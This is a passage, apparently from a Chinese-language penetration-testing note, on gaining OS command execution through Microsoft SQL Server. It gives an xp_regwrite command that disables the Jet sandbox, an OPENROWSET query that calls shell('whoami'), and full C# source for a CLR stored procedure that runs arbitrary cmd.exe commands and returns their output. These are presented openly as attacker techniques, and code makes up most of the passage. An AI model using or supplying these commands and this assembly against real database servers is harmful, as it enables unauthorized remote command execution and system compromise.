    ```
   exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',1
   ```

   执行

   ```
   select * from openrowset('microsoft.jet.oledb.4.0',';database=c:\windows\system32\ias\dnary.mdb','select shell("whoami")')
   ```

   在默认安装mssql 2012上报错  "无法创建链接服务器“(null)”的 OLE DB 访问接口“microsoft.jet.oledb.4.0”的实例。"  暂未找到解决办法

4. CLR执行

   Common Language Runtime(CLR)程序集定义为可以导入SQL Server的.NET DLL（或DLL组）。导入后，DLL方法可以链接到存储过程并通过TSQL执行。创建和导入自定义CLR程序集的能力是开发人员扩展SQL Server本机功能的好方法，但自然也为攻击者创造了机会。以C#代码为例，将下面代码用CSC编译为dll

   ```
   using System;
   using System.Data;
   using System.Data.SqlClient;
   using System.Data.SqlTypes;
   using Microsoft.SqlServer.Server;
   using System.IO;
   using System.Diagnostics;
   using System.Text;
   
   public partial class StoredProcedures
   {
       [Microsoft.SqlServer.Server.SqlProcedure]
       public static void cmd_exec (SqlString execCommand)
       {
           Process proc = new Process();
           proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
           proc.StartInfo.Arguments = string.Format(@" /C {0}", execCommand.Value);
           proc.StartInfo.UseShellExecute = false;
           proc.StartInfo.RedirectStandardOutput = true;
           proc.Start();
   
           // Create the record and specify the metadata for the columns.
           SqlDataRecord record = new SqlDataRecord(new SqlMetaData("output", SqlDbType.NVarChar, 4000));
           
           // Mark the beginning of the result set.
           SqlContext.Pipe.SendResultsStart(record);
   
           // Set values for each column in the row
           record.SetString(0, proc.StandardOutput.ReadToEnd().ToString());
   
           // Send the row back to the client.
           SqlContext.Pipe.SendResultsRow(record);
           
           // Mark the end of the result set.
           SqlContext.Pipe.SendResultsEnd();
           
           proc.WaitForExit();
           proc.Close();
       }
   };
   ```
